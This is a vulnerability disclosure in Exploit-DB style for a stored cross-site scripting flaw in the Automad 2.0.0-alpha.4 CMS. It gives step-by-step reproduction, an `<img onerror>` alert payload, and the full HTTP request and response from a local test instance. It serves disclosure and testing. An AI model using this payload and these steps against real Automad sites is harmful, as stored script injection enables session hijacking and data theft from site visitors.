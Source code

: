 # Exploit Title: Stored Cross-Site Scripting (XSS) - Automad 2.0.0-alpha.4
# Date: 20-06-2024
# CVE: N/A (Awaiting ID to be assigned)
# EDB-ID: [52056](https://www.exploit-db.com/exploits/52056)
# Exploit Author: Jerry Thomas (w3bn00b3r)
# Vendor Homepage: https://automad.org
# Software Link: https://github.com/marcantondahmen/automad
# Category: Web Application [Flat File CMS]
# Version: 2.0.0-alpha.4
# Tested on: Docker version 26.1.4, build 5650f9b | Debian GNU/Linux 11 (bullseye)

# Description

A persistent (stored) cross-site scripting (XSS) vulnerability has been identified in Automad 2.0.0-alpha.4. This vulnerability enables an attacker to inject malicious JavaScript code into the template body. The injected code is stored within the flat file CMS and is executed in the browser of any user visiting the forum. This can result in session hijacking, data theft, and other malicious activities.

# Proof-of-Concept

**Step-1**: Login as Admin & Navigate to the endpoint http://localhost/dashboard/home

**Step-2**: There will be a default Welcome page. You will find an option to edit it.

**Step-3:** Navigate to Content tab or http://localhost/dashboard/page?url=%2F&section=text & edit the block named ***`Main`***

**Step-4:** Enter the XSS Payload - `<img src=x onerror=alert(1)>`

***Request:***  
```
POST /_api/page/data HTTP/1.1
Host: localhost
Content-Length: 1822
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryzHmXQBdtZsTYQYCv
Accept: */*
Origin: http://localhost
Referer: http://localhost/dashboard/page?url=%2F&section=text
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: Automad-8c069df52082beee3c95ca17836fb8e2=d6ef49301b4eb159fbcb392e5137f6cb
Connection: close

------WebKitFormBoundaryzHmXQBdtZsTYQYCv
Content-Disposition: form-data; name="__csrf__"

49d68bc08cca715368404d03c6f45257b3c0514c7cdf695b3e23b0a4476a4ac1
------WebKitFormBoundaryzHmXQBdtZsTYQYCv
Content-Disposition: form-data; name="__json__"

{"data":{"title":"Welcome","+hero":{"blocks":[{"id":"KodzL-KvSZcRyOjlQDYW9Md2rGNtOUph","type":"paragraph","data":{"text":"Testing for xss","large":false},"tunes":{"layout":null,"spacing":{"top":"","right":"","bottom":"","left":""},"className":"","id":""}},{"id":"bO_fxLKL1LLlgtKCSV_wp2sJQkXAsda8","type":"paragraph","data":{"text":"&lt;h1&gt;XSS identified by Jerry&lt;/h1&gt;","large":false},"tunes":{"layout":null,"spacing":{"top":"","right":"","bottom":"","left":""},"className":"","id":""}}],"automadVersion":"2.0.0-alpha.4"},"+main":{"blocks":[{"id":"lD9sUJki6gn463oRwjcY_ICq5oQPYZVP","type":"paragraph","data":{"text":"You have successfully installed Automad 2.<br><br>&lt;img src=x onerror=alert(1)&gt;<br>","large":false},"tunes":{"layout":null,"spacing":{"top":"","right":"","bottom":"","left":""},"className":"","id":""}},{"id":"NR_n3XqFF94kfN0jka5XGbi_-TBEf9ot","type":"buttons","data":{"primaryText":"Visit Dashboard","primaryLink":"/dashboard","primaryStyle":{"borderWidth":"2px","borderRadius":"0.5rem","paddingVertical":"0.5rem","paddingHorizontal":"1.5rem"},"primaryOpenInNewTab":false,"secondaryText":"","secondaryLink":"","secondaryStyle":{"borderWidth":"2px","borderRadius":"0.5rem","paddingHorizontal":"1.5rem","paddingVertical":"0.5rem"},"secondaryOpenInNewTab":true,"justify":"start","gap":"1rem"},"tunes":{"layout":null,"spacing":{"top":"","right":"","bottom":"","left":""},"className":"","id":""}}],"automadVersion":"2.0.0-alpha.4"}},"theme_template":"project","dataFetchTime":"1718911139","url":"/"}
------WebKitFormBoundaryzHmXQBdtZsTYQYCv--
```
***Response:***  

```
HTTP/1.1 200 OK
Server: nginx/1.24.0
Date: Thu, 20 Jun 2024 19:17:35 GMT
Content-Type: application/json; charset=utf-8
Connection: close
X-Powered-By: PHP/8.3.6
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 30`

{"code":200,"time":1718911055}
```

**Step-5:** XSS triggers when you go to homepage - http://localhost/


# Video Poc
``` 
Link - https://drive.google.com/file/d/10BVQKYo2H1-Nx3FOGteL2xww4lbZ3xlS/view?usp=sharing
```
